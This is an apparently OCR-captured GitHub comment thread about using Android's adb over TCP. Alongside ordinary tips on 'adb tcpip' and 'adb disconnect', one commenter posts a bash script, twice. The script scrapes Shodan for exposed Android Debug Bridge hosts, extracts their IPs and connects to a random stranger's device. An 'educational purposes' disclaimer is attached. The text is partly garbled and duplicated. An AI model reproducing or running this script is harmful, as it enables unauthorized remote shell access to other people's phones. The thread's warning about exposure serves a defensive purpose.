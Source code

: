 |xargs adb connect }

findTargets adbConnect Above script is shared for educational purposes, wuseman cannot be held responsible for other users’ use of the above script // wuseman

@HeadStudios HeadStudios commented on Aug 21, 2022 You need to connect to your device via adb connect adb connect : First you need to enable tcp mode as below with usb cable connected Plugin USB and execute adb tcpip 5555 Remove USB Cable and connect to your device via network: adb connect :5555 Now you can work with your device via network, enter shell as usual: adb shell warning WARNING: \*Don’t forget to DISCONNECT when you have finished debugging. You can be in danger and may be listed at [shodan.io](http://shodan.io/) and other sites similiar to shodan if you will keep tcpip be running in background. We can find your device via a simple portscan via masscan or similiar tools, so use below command when you are done in shell:

adb disconnect To show you the danger with keep tcp mode running, for more tips to stay safe you can visit the below url for get latest commands since some are out of date I see here: [https://wuseman.github.io/adb-cheatsheet/](https://wuseman.github.io/adb-cheatsheet/)

You can copy and paste in any terminal and you are connected to a random device that has tcpip running without device owners knowledge, there is no way to figure outwihtout list connected devices ON the device. Therefore, take my warning seriously! Within \~1-3 seconds you have connected to a device. Now imagine if we use xargs -n1 -P20, then we connect to 20 device at same time. So be careful!!

## Port for ABD

PORT=“5555”

## Shodan FILTER:

FILTER=“android+debug+bridge”

## Source URL:

TARGETS=“[https://www.shodan.io/search?query=${FILTER}”](https://www.shodan.io/search?query=$%7BFILTER%7D%E2%80%9D)

function findTargets() { curl -sL ${TARGETS}|awk ‘!seen\[$0]++’

|grep -E -o “(\[0-9]{1,3}\[.]){3}\[0-9]{1,3}”

|awk ‘!seen\[$0]++’ |tee wadb-attack.log }

function adbConnect() { grep -E -o “(\[0-9]{1,3}\[.]){3}\[0-9]{1,3}” wadb-attack.log

|sed ‘s/$/:5555/g’|tee target.txt shuf -n1 target.txt

|xargs adb connect }

findTargets adbConnect Above script is shared for educational purposes, wuseman cannot be held responsible for other users’ use of the below script // wuseman

Wow thank you so much! I was using adb shell but i’ll keep disconnect in mind for protection (I do put my laptop to sleep and can keep shell open for a long time so it’s good to know the dangers..)
